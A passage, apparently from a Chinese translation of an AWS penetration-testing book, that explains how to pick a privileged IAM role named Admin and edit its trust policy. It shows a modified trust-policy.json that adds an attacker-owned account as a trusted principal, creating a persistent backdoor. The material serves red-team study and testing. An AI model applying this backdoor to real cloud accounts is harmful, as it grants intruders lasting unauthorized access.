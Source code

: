 `AWSBatchServiceRole`这个名字显然表明这个角色是一个服务关联角色，对吗？错。如果你注意到，在`AWS service: batch`之后没有`(Service-Linked role)`的说明。所以，这意味着我们可以更新这个角色的信任策略，即使它听起来像是一个服务关联角色。

在我们的测试环境中，我们找到了一个名为`Admin`的角色，这对于攻击者来说应该立即引起`高特权`的警觉，所以我们将以这个角色为目标进行持久性攻击。我们不想在目标环境中搞砸任何事情，所以我们希望将自己添加到信任策略中，而不是用我们自己的策略覆盖它，这可能会在环境中搞砸一些东西。如果我们不小心移除了对某个 AWS 服务的访问权限，依赖于该访问权限的资源可能会开始失败，而我们不希望出现这种情况，有很多不同的原因。

从`iam:GetRole`和`iam:ListRoles`返回的数据应该已经包括我们想要的角色的活动信任策略文档，在 JSON 响应对象的`AssumeRolePolicyDocument`键下。我们要定位的管理员角色如下：

```
{
    "Path": "/",
    "RoleName": "Admin",
    "RoleId": "AROAJTZAUYV2TQBZ2LXUK",
    "Arn": "arn:aws:iam::111111111111:role/Admin",
    "CreateDate": "2018-11-06T18:48:08Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::111111111111:root"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "Description": "",
    "MaxSessionDuration": 3600
}
```

如果我们查看`AssumeRolePolicyDocument` > `Statement`下的值，我们可以看到目前只允许一个主体假定这个角色，即**Amazon 资源名称**（**ARN**）`arn:aws:iam::111111111111:root`。这个 ARN 指的是帐户 ID 为`111111111111`的帐户的根用户，基本上可以翻译为`帐户 ID 111111111111 中的任何资源`。这包括根用户、IAM 用户和 IAM 角色。

# 添加我们的后门访问

我们现在将把我们的攻击者拥有的账户添加为此角色的信任策略。首先，我们将把角色信任策略中`AssumeRolePolicyDocument`键的值保存到本地 JSON 文件（`trust-policy.json`）中。为了向我们自己的账户添加信任而不移除当前的信任，我们可以将`Principal` `AWS`键的值从字符串转换为数组。这个数组将包括已经存在的根 ARN 和我们攻击者账户的根 ARN。`trust-policy.json`现在应该看起来像下面这样：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "arn:aws:iam::111111111111:root",
                    "arn:aws:iam::012345678912:root"
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```
